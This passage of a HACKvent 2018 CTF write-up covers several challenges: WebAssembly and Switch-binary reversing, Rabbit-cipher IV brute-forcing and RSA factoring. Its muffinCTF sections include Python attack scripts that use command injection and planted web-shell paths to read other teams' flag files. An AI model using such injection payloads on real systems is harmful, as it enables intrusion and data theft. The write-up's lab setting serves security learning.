    private static byte[] b = new byte[]{-83, 8, 119, 19, 73, 17, 2, 83, 126, 17, 33, 119, 115, 6, 38, 16, 26, 23, 10, 127, 20, 85, 81, 47, 13, 88, 43, 0, 70, 27, -122, 8, 83, 17, 125, 46, 78, 64, 89, 78, 41};

    static String eventResult() {
        byte[] x = xor(b, NotEvil.b, 0);
        x = xor(x, Evil.b, 100);
        x = xor(x, Sad.b, 200);
        x = xor(x, Question.b, 300);
        return new String(x);
    }

    private static byte[] xor(byte[] c, byte[] b, int offset) {
        byte[] x = new byte[c.length];

        for(int i = 0; i < c.length; ++i) {
            x[i] = (byte)(c[i] ^ b[i + offset]);
        }

        return x;
    }
}
```

All we have to do now is to call `eventResult` to get the flag.

### Day 19: PromoCode

I was delighted to see a WebAssembly challenge. I planned to work on one myself. I wasn't able to solve the hard one, my
bruteforce algorithm took too long to solve it. In this writeup I will discuss the easier version.

First of all we use the [wasm2wat](https://webassembly.github.io/wabt/demo/wasm2wat/) of the [WebAssembly Binary
Toolkit](https://github.com/WebAssembly/wabt) to get the text format of the webassembly. The following part is important
for us:

```wat
(func $_checkPromoCode (export "_checkPromoCode") (type $t1) (param $p0 i32) (result i32)
    (local $l0 i32) (local $l1 i32) (local $l2 i32) (local $l3 i32) (local $l4 i32) (local $l5 i32) (local $l6 i32) (local $l7 i32) (local $l8 i32) (local $l9 i32) (local $l10 i32) (local $l11 i32) (local $l12 i32) (local $l13 i32) (local $l14 i32) (local $l15 i32) (local $l16 i32) (local $l17 i32) (local $l18 i32) (local $l19 i32) (local $l20 i32) (local $l21 i32) (local $l22 i32) (local $l23 i32) (local $l24 i32) (local $l25 i32) (local $l26 i32) (local $l27 i32) (local $l28 i32) (local $l29 i32) (local $l30 i32) (local $l31 i32) (local $l32 i32) (local $l33 i32) (local $l34 i32) (local $l35 i32) (local $l36 i32) (local $l37 i32) (local $l38 i32) (local $l39 i32) (local $l40 i32) (local $l41 i32) (local $l42 i32) (local $l43 i32) (local $l44 i32) (local $l45 i32) (local $l46 i32) (local $l47 i32) (local $l48 i32)
    (set_local $l46
      (get_local $l11))
    (set_local $l1
      (call $f32
        (get_local $l46)))
    (set_local $l2
      (i32.eq
        (get_local $l1)
        (i32.const 15)))
    (block $B1
      (if $I2
        (get_local $l2)
        (then
          (set_local $l43
            (i32.const 0))
          (loop $L3
            (block $B4
              (set_local $l3
                (get_local $l43))
              (set_local $l4
                (get_local $l11))
              (set_local $l5
                (call $f32
                  (get_local $l4)))
              (set_local $l6
                (i32.lt_u
                  (get_local $l3)
                  (get_local $l5)))
              (if $I5
                (i32.eqz
                  (get_local $l6))
                (then
                  (br $B4)))
              (set_local $l7
                (get_local $l11))
              (set_local $l8
                (get_local $l43))
              (set_local $l9
                (i32.add
                  (get_local $l7)
                  (get_local $l8)))
              (set_local $l10
                (i32.load8_s
                  (get_local $l9)))
              (set_local $l12
                (i32.shr_s
                  (i32.shl
                    (get_local $l10)
                    (i32.const 24))
                  (i32.const 24)))
              (set_local $l13
                (i32.xor
                  (get_local $l12)
                  (i32.const 90)))
              (set_local $l44
                (get_local $l13))
              (set_local $l14
                (get_local $l44))
              (set_local $l15
                (get_local $l43))
              (set_local $l16
                (i32.add
                  (get_local $l33)
                  (i32.shl
                    (get_local $l15)
                    (i32.const 2))))
              (set_local $l17
                (i32.load
                  (get_local $l16)))
              (set_local $l18
                (i32.ne
                  (get_local $l14)
                  (get_local $l17)))
              (if $I6
                (get_local $l18)
                (then
                  (set_local $l47
                    (i32.const 5))
                  (br $B4)))
              (set_local $l19
                (get_local $l43))
              (set_local $l20
                (i32.add
                  (get_local $l19)
                  (i32.const 1)))
              (set_local $l43
                (get_local $l20))
              (br $L3)))
          (if $I7
            (i32.eq
              (get_local $l47)
              (i32.const 5))
            (then
              (set_local $l0
                (get_local $l42))
              (set_local $l41
                (get_local $l0))
              (set_global $g10
                (get_local $l48))
              (return
                (get_local $l41))))
          (set_local $l45
            (i32.const 0))
          (loop $L8
            (set_local $l21
              (get_local $l45))
            (set_local $l23
              (i32.lt_s
                (get_local $l21)
                (i32.const 30)))
            (if $I9
              (i32.eqz
                (get_local $l23))
              (then
                (br $B1)))
            (set_local $l24
              (get_local $l45))
            (set_local $l25
              (i32.add
                (get_local $l22)
                (get_local $l24)))
            (set_local $l26
              (i32.load8_s
                (get_local $l25)))
            (set_local $l27
              (i32.shr_s
                (i32.shl
                  (get_local $l26)
                  (i32.const 24))
                (i32.const 24)))
            (set_local $l28
              (get_local $l11))
            (set_local $l29
              (get_local $l45))
            (set_local $l30
              (i32.and
                (i32.rem_s
                  (get_local $l29)
                  (i32.const 15))
                (i32.const -1)))
            (set_local $l31
              (i32.add
                (get_local $l28)
                (get_local $l30)))
            (set_local $l32
              (i32.load8_s
                (get_local $l31)))
            (set_local $l34
              (i32.shr_s
                (i32.shl
                  (get_local $l32)
                  (i32.const 24))
                (i32.const 24)))
            (set_local $l35
              (i32.xor
                (get_local $l27)
                (get_local $l34)))
            (set_local $l36
              (i32.and
                (get_local $l35)
                (i32.const 255)))
            (set_local $l37
              (get_local $l45))
            (set_local $l38
              (i32.add
                (get_local $l42)
                (get_local $l37)))
            (i32.store8
              (get_local $l38)
              (get_local $l36))
            (set_local $l39
              (get_local $l45))
            (set_local $l40
              (i32.add
                (get_local $l39)
                (i32.const 1)))
            (set_local $l45
              (get_local $l40))
            (br $L8)
            (unreachable))
          (unreachable))))
      )
```

At first the length of the input gets compared. It has to be 15 otherwise `HV18-TRYH-ARDE-RTRY_HARD_ER!!` gets printed.
Then each character of the promo code gets xored with 90 and compared with a value from the linear memory. The code can
easily be reversed by hand:

```javascript
const data = "\\1feS\\0c\\18\\1fz!\\04A:!\\06rY=IVv\\18<C:+A6\\00\\0d\\5ct\\00\\00\\0d\\00\\00\\00i\\00\\00\\008\\00\\00\\00n\\00\\00\\00o\\00\\00\\007\\00\\00\\00k\\00\\00\\00)\\00\\00\\00\\08\\00\\00\\006\\00\\00\\00#\\00\\00\\00\\1c\\00\\00\\00n\\00\\00\\00o\\00\\00\\00.\\00\\00\\00\\00\\00\\00\\00HV18-TRYH-ARDE-RTRY_HARD_ER!!\\00\\00\\00\\05\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\01\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\02\\00\\00\\00\\03\\00\\00\\00\\08\\05\\00\\00\\00\\04\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\01\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\0a\\ff\\ff\\ff\\ff\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\80\\04";
const decodedData = [];

var matchingHex = false;
var part = '';

for (var i = 0; i < data.length; i++) {
    var current = data.charAt(i);

    if (current == '\\') {
        matchingHex = true;
    } else {
        if (matchingHex) {
            if (part.length == 0) {
                part += current;
            } else {
                decodedData.push(parseInt(part + current, 16));

                matchingHex = false;
                part = '';
            }
        } else {
            decodedData.push(current.charCodeAt(0));
        }
    }
}

const key = [];
for (var j = 0; j < 15; j++) {
    key.push(String.fromCharCode(decodedData[8 + j << 2] ^ 90));
}

console.log(key.join(''));
```

The first part just decodes the data segment that we found in the text format of the WebAssembly. The second part
generates the key.

### Day 20: I want to play a game

In this challenge we get an nro file. It turns out that it's a game of the Switch console. When loading the game in the
[yuzu emulator](https://yuzu-emu.org/) we get the instructions to encrypt the following text:
`f42df92b389fffca59598465c7a51d36082ecfea567a900e5eac9e5e9fb1`. Whilst searching through the binary I found the
following string `shuffle*whip$crush%squeeze`. Those are names for the basic functions of the [Spritz
cipher](https://hackage.haskell.org/package/spritz-0.1.0.0/docs/src/Crypto-Cipher-Spritz.html).

Thw following python program encrypts our text and prints the flag:

```python
from spritz import Spritz
import binascii

spritz = Spritz()

K = bytearray('shuffle*whip$crush%squeeze\0')
M = bytearray.fromhex('f42df92b389fffca59598465c7a51d36082ecfea567a900e5eac9e5e9fb1')

C = spritz.encrypt(K, M)

print C
```

### Day 21: muffinCTF

This was the first day of the attack and defense part of the CTF. We get two services: bakery and garden. We have to
patch vulnerabilites and attack other players to steal their flags.

As I wasn't able to get the garden up and running I focused on the bakery. I patched the following vulnerabilites in the
inc.php file:

```php
$allowed = array("../html/home.html", "../html/breads.html", "../html/breadSend.html");

if (isset($_GET['page'])) {]
  $page = $_GET['page'];

  if (in_array($page, $allowed)) {
    include($page);
  } else if (preg_match('/^breads.php/', $page) === 1) {
    include($page);
  } else if (preg_match('/^breadSend.php.php/', $page) === 1) {
    include($page);
  } else {
    http_response_code(403);
    die();
  }
}
```

Furthermore I deleted various php files that were hidden in the subfolders and patched vulnerabilities that were present
in `breadSend.php` and `breads.php`.

With the following attack script I was able to steal flags from other players:

```python
def exploit(attack_url):
    output = ''

    try:
        output += requests.get(attack_url + ".../.php?_=cat%20/home/bakery/breads/*").text
	output += requests.get(attack_url + "css/components/checkbox.php?_=cat%20/home/bakery/breads/*").text
        output += requests.get(attack_url + "inc/inc.php?page=breadSend.php?ip=;cat%20/home/bakery/breads/*").text

    except KeyboardInterrupt:
        sys.exit(1)
    except:
        pass

    return output

muffin_ctf.attack_all('bakery', exploit)
```

During the CTF I was also able to get the garden service running. There I patched some vulnerabilities such as the sql
injection.

### Day 22: muffinCTF

On the second day of the muffinCTF we got two new services: mill and port. I focused on port because mill didn't work at
that time. Mill was a JSP application that was deployed to a Apache Tomcat.

I patched the `searchPortname.jsp` because it allowed remote code execution:

```java
if (request.getParameter("port") != null) {
    String port = request.getParameter("port");

    if (!"^[a-zA-Z0-9\\.]*$".matches(port)) {
        response.sendError(418, "I'm a teapot");
        return;
    }

    // nslookup to port
}
```

Then I used the attack library to steal flags from other players:

```python
def exploit(attack_url):
    output = ''
    common = 'cat%20%2Fopt%2Ftomcat%2Ftomcat-latest%2Fwebapps%2FROOT%2Fuploads%2F*'

    try:
        output += requests.get(attack_url + "searchPortname.jsp?port=%3B%20" + common).text
        output += requests.get(attack_url + "js/Framework/jquery.min/javascript/plugins/lib/jquery.min.js.jsp?cmd=" + common).text
    except KeyboardInterrupt:
        sys.exit(1)
    except:
        pass

    return output

muffin_ctf.attack_all('port', exploit)
```

### Day 23: muffinCTF

On the third day of the muffinCTF we got two new services as well: barracks and keep. The check if keep was available
didn't work at the first because the folder wasn't owned by the user keep. To change this I ran `chown -R keep /home/keep/`.

I only ran the keep service to get the flag. No one was exploiting it so I left it unpatched. With the exploits from
above I was able to get the flag for day 3.

## Final

### Day 24: Take the red pill, take the blue pill

This challenge was awesome! We get two zip files, one represents the red pill and one the blue pill. The red pill
contains an encrypted flag and a jar file. The blue pill contains an encrypted flag as well and an exe file.

The RedPill class contained the following code:

```java
if (args.length != 1) {
    System.out.println("java -jar redpill.jar <red pill serial number> \n");
    System.exit(0);
}

if (!args[0].matches("[0-9]{2}-[0-9]{3}-[0-9]{3}")) {
    System.out.println("That's not a red pill");
    System.exit(0);
}

byte[] iv = args[0].replace("-", "").getBytes();
byte[] k = new byte[16];

System.arraycopy(iv, 0, k, 0, 8);
System.arraycopy(iv, 0, k, 8, 8);

byte[] b = Files.readAllBytes(new File("flag").toPath());
byte[] f = new byte[(b.length + 1) / 2];

int i = 0;
while (i < b.length) {
    if (i % 2 == 0) {
        f[i / 2] = (byte) (f[i / 2] | b[i] << 4); // lower 4 bits
    } else {
        f[i / 2] = (byte) (f[i / 2] | b[i] & 15); // lower 4 bits
    }

    ++i;
}

Cipher3 c = new Cipher3();
c.setupKey(k);
c.setupIV(iv);

byte[] fc = c.crypt(f);

Files.write(new File("flag_encrypted").toPath(), fc);
```

This was the code that was used to encrypt the flag. We can see that the key is just the IV repeated. Furthermore we
realize that only the lower 4 bits of each byte get encrypted. So we must still be missing something. The Cipher3 class
uses some constants and a quick search shows that it's an implementation of the [Rabbit
cipher](https://en.wikipedia.org/wiki/Rabbit_(cipher)).

When looking at the blue pill we can see that it also encrypts a flag. We assume that it must be the same flag as the
one of the red pill. From the blue pill we also learn that the flag is a PNG image. The first 32bit integer of the file
that gets encrypted is compared to `1196314761` which is also the first value of the PNG header.

The blue pill encrypts only the higher 4 bits of each byte.

```
v8 = 0;
while (v8 != numberOfBytesToWrite) {
    *(v7 + v8) = (v9[2 * v8 + 1] >> 4) | 16 * (v9[2 * v8] >> 4);
    v8++;
}
```

The key is a constant value but the IV changes based on the current time:

```
RegCreateKeyExA(HKEY_CURRENT_USER, "SOFWARE\HACKvent2018", 0, 0, 0, 0x4001F, 0, &hkey, 0);
RegQueryInfoKeyA(hkey, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, &FileTime);
RegCloseKey(hkey);
FileTimeToSystemTime(&FileTime, &SystemTime);
SystemTimeToFileTime(&SystemTime, &FileTime);

char key[16] = { 0x87, 0x05, 0x89, 0xCD, 0xA8, 0x75, 0x62, 0xEF, 0x38, 0x45, 0xFF, 0xD1, 0x41, 0x37, 0x54, 0xD5 };

setKey(&state, &key);
setIV(&state, &FileTime);
```

This takes the time when the register got created and saves it as a
[FILETIME](https://msdn.microsoft.com/en-us/library/windows/desktop/ms724284(v=vs.85).aspx). This struct gets
converted into a [SYSTEMTIME](https://msdn.microsoft.com/en-us/library/windows/desktop/ms724950(v=vs.85).aspx) and then
back to a FILETIME. In this process the lowest four digits get set to zero because the SYSTEMTIME only saves
milliseconds whereas the FILETIME saves the time in 100 nanosecond steps. This fact allows us to bruteforce the IV of
the blue pill much faster.

We now know how the IVs get created, what the keys are and that the flag must be a PNG image. Now we're able to
bruteforce the correct IVs by comparing the decrypted content to the PNG headers. For the red pill we take the lower
bits of the PNG header bytes and for the blue pill we take the higher bits.

To bruteforce the red pill I first wrote a Java program. It took extremly long to find the correct IV so I wrote a C
program that solves the problem much faster:
```c
FILE *fp;
long size;
unsigned char *buffer;

fp = fopen("flag_encrypted" , "rb");

fseek(fp , 0L , SEEK_END);
size = ftell(fp);
rewind(fp);

buffer = calloc(1, size + 1);
fread(buffer , size, 1 , fp);

char png[8] = {0x9, 0x0, 0xe, 0x7, 0xd, 0xa, 0xa, 0xa};

cc_byte key[16];
cc_byte destination[16];

for (char a = '0'; a <= '9'; a++) {
    for (char b = '0'; b <= '9'; b++) {
        for (char c = '0'; c <= '9'; c++) {
            for (char d = '0'; d <= '9'; d++) {
                for (char e = '0'; e <= '9'; e++) {
                    for (char f = '0'; f <= '9'; f++) {
                        for (char g = '0'; g <= '9'; g++) {
                            for (char h = '0'; h <= '9'; h++) {
                                cc_byte iv[8] = { a, b, c, d, e, f, g, h };

                                memcpy(key, iv, 8);
                                memcpy(key + 8, iv, 8);

                                rabbit_instance r_master_inst, r_inst;

                                rabbit_key_setup(&r_master_inst, key, 16);
                                rabbit_iv_setup(&r_master_inst, &r_inst, iv, 8);
                                rabbit_cipher(&r_inst, buffer, destination, 16);

                                bool wrong = false;

                                for (int i = 0; i < 8; i++) {
                                    char current = png[i];

                                    if (i % 2 == 0) {
                                        if (current != (destination[i / 2] >> 4) & 15) {
                                            wrong = true;
                                            break;
                                        }
                                    } else {
                                        if (current != (destination[i / 2] & 15)) {
                                            wrong = true;
                                            break;
                                        }
                                    }
                                }

                                if (!wrong) {
                                    printf("Valid solution found\n");

                                    for (int i = 0; i < 8; i++){
                                        printf("%c", *(iv+i));
                                    }

				    printf("\n");

                                    fclose(fp);
                                    free(buffer);
                                    return 0;
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}

fclose(fp);
free(buffer);

return 0;
```

To bruteforce the blue IV I wrote a small Java program:
```java
byte[] blueKey = new byte[]{(byte) 0x87, 0x05, (byte) 0x89, (byte) 0xCD, (byte) 0xA8, 0x75, 0x62, (byte) 0xEF, 0x38, 0x45, (byte) 0xFF, (byte) 0xD1, 0x41, 0x37, 0x54, (byte) 0xD5};
byte[] pngHigherHeader = new byte[]{0x8, 0x5, 0x4, 0x4, 0x0, 0x0, 0x1, 0x0};

byte[] cipherText = Files.readAllBytes(new File("flag_encrypted_blue").toPath());
BigInteger initial = new BigInteger("131852077180000000");

outer:
while (true) {
    initial = initial.subtract(new BigInteger("10000"));

    byte[] iv = ByteBuffer.allocate(8)
            .order(ByteOrder.LITTLE_ENDIAN)
            .putLong(initial.longValue())
            .array();

    Cipher3 cipher = new Cipher3();
    cipher.setupKey(blueKey);
    cipher.setupIV(iv);

    byte[] clearText = cipher.crypt(Arrays.copyOf(cipherText, cipherText.length));
    byte[] reversed = new byte[clearText.length * 2];

    for (int i = 0; i < reversed.length; i += 2) {
        reversed[i] = (byte) ((clearText[i / 2] >>> 4) & 15);
        reversed[i + 1] = (byte) (clearText[i / 2] & 15);
    }

    for (int i = 0; i < pngHigherHeader.length; i++) {
        if (reversed[i] != pngHigherHeader[i]) {
            continue outer;
        }
    }

    List<String> bytes = new ArrayList<>();

    for (byte b : iv) {
        bytes.add(String.format("%02X", b));
    }

    System.out.println(bytes);

    return;
}
```

Now we have all the parts that we need to reassemble the flag:

```java
byte[] blueIV = new byte[]{ 0x10, 0x71, (byte) 0xEF, (byte) 0xFE, (byte) 0xC3, 0x6E, (byte) 0xD4, 0x01 };
byte[] blueKey = new byte[]{ (byte) 0x87, 0x05, (byte) 0x89, (byte) 0xCD, (byte) 0xA8, 0x75, 0x62, (byte) 0xEF, 0x38, 0x45, (byte) 0xFF, (byte) 0xD1, 0x41, 0x37, 0x54, (byte) 0xD5 };

byte[] redIV = "45288109".getBytes();
byte[] redKey = new byte[16];

System.arraycopy(redIV, 0, redKey, 0, 8);
System.arraycopy(redIV, 0, redKey, 8, 8);

byte[] redCipher = Files.readAllBytes(new File("flag_encrypted_red").toPath());
byte[] blueCipher = Files.readAllBytes(new File("flag_encrypted_blue").toPath());

Cipher3 c = new Cipher3();
c.setupKey(redKey);
c.setupIV(redIV);

byte[] redClear = c.crypt(redCipher);

Cipher3 c2 = new Cipher3();
c2.setupKey(blueKey);
c2.setupIV(blueIV);

byte[] blueClear = c2.crypt(blueCipher);

byte[] b = new byte[redClear.length * 2];
int i = 0;
int dest = 0;

while (i < b.length / 2) {
    byte lowerBitsFirst = (byte) ((redClear[i] >> 4) & 0b1111);
    byte lowerBitsSecond = (byte) (redClear[i] & 0b1111);

    byte higherBitsFirst = (byte) ((blueClear[i] >> 4) & 0b1111);
    byte higherBitsSecond = (byte) (blueClear[i] & 0b1111);

    b[dest++] = (byte) ((higherBitsFirst << 4) | lowerBitsFirst);
    b[dest++] = (byte) ((higherBitsSecond << 4) | lowerBitsSecond);

    i++;
}

Files.write(new File("final.png").toPath(), b);
```

## Hidden

### Hidden 1

Similar to last years hidden challenge we had to use `telnet challenges.hackvent.hacking-lab.com`. This time we didn't
get a flag directly though. When looking at the snow animation we can see some characters flying by. We can write the
telnet output to a file and read the password.

Now we have to log into Santas FTP server and get the content of the `flag` file.

### Hidden 2

The second hidden flag can be found by checking the TXT entry of the `www.hackvent.org` domain. This subdomain can be found
when solving the challenge of day 5.

### Hidden 3

This one was hidden in the challenge of day 14. We have a value n and a thumbprint in the file:

```powershell
#thumbprint 1398ED7F59A62962D5A47DD0D32B71156DD6AF6B46BEA949976331B8E1
$n = [System.Numerics.BigInteger]::Parse("0D8A7A45D9BE42BB3F03F710CF105628E8080F6105224612481908DC721", 'AllowHexSpecifier');
```

This is an RSA encrypted message. We can factorize n into p and q using [factordb](http://factordb.com/index.php):

```
p = 73197682537506302133452713613304371
q = 79797652691134123797009598697137499
```

With the help of CrypTool it's now easy to decrypt the message and get the hidden flag.


